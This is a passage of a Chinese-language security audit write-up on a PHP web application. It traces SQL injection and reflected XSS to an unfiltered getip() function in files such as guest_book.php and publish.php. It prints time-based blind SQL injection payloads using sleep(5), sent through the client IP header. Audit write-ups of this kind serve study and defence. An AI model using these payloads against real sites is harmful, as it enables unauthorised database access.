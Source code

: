 所以只要是带有getip() 函数的地方就会存在SQL注入

根据代码进行构造

![image-20210105151351166](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105151351166.png)

构造如下payload

`888' and if(ascii(substr(database(),1,1)=98),sleep(5),1),'1')#`

![image-20210105151907298](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105151907298.png)

### 0x05 guest_book.php

#### INSERT SQL注入漏洞

同样的这里问题出在onlineip上

![image-20210105152651154](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105152651154.png)

$online_ip 其实就是getup() 所以实际上出问题的还是getip()

![image-20210105152708558](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105152708558.png)

还是同样的配方hhhh

`888' and if(ascii(substr(database(),1,1)=98),sleep(5),1),'1')#`

![image-20210105153019665](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105153019665.png)



### 0x06 publish.php

#### INSERT SQL注入漏洞

原理还是因为getip()没有做好过滤导致

![image-20210105171622921](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105171622921.png)

payload如下：

`888' and if(ascii(substr(database(),1,1)=98),sleep(5),1) or '1'='1`

![image-20210105170706246](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105170706246.png)

#### 反射型XSS漏洞

原因和之前一样，因为将错误回显了出来，所以导致可解析payload从而导致xss （不过这里位置是X-Forward-For 所以漏洞危害非常小）

注意要加入引号或其他的使其报错

![image-20210105164705643](https://gitee.com/KpLi0rn/BlogImag/raw/master/img/image-20210105164705643.png)



#### 任意文件删除漏洞
